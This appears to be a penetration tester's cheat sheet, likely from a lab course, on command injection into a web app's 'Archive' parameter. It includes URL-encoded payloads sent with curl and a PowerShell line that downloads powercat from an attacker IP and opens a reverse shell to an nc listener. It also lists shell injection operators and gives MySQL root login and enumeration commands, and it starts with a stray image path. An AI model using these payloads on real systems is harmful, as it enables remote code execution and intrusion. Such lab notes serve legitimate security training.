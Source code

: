 we can url encode this and send


```
curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive
```

can use powercat for a windows reverse shell in pwsh

```
/usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
python3 -m http.server 80
nc -lnvp 4444
```

pwsh command for powercat reverse shell

```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.45.235/powercat.ps1");powercat -c 192.168.45.235 -p 4444 -e powershell 
```

encoded

```
curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.119.3%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.119.3%20-p%204444%20-e%20powershell' http://192.168.50.189:8000/archive
```

check `sudo su` to see if you can elevate to root shell

useful injections 

```

    &
    &&
    |
    ||
    ;
    \n
    `
    $()

```

## SQL Injection

### MySQL

```
mysql -u root -p'root' -h 192.168.50.16 -P 3306
select version();
select system_user();
show databases;
```
